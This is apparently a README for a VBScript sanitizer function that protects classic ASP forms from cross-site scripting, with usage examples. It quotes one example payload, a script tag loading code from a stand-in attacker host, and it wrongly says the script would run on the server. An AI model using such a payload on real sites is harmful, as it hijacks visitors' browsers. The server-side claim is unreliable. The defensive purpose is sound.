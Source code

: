 # XSS-Sanitizer
VBScript Sanitizer Function to Protect Against XSS Attacks

When sending forms between your web pages, you leave your site vulnerable to Cross Site Scripting (XSS) hacking attempts where someone could try inputting harmful code into your form fields. To protect your forms, all Request() functions must be trimmed and stripped of potentially harmful code.

Say you have the following HTML input as part of a form:
<input type="text" name="Comments" maxlength="50" value="<% = strComments %>">

Someone could pass harmful code such as <script src="hacker.com/hack.js"></script> and this would execute anything in hack.js on your server. Even if this code didn't fit within the "maxlength" of 50, that form input can be fudged. The best way to protect yourself is to sanitize all requests on a webpage.

Include the file in your webpage.
<!-- #include file="sanitizer-function.asp" -->

Run with the format sanitize(str, cut) where str is the desired field to protect and cut is the length to trim it to. For example:
strComments = sanitize(Request("Comments"), 50)
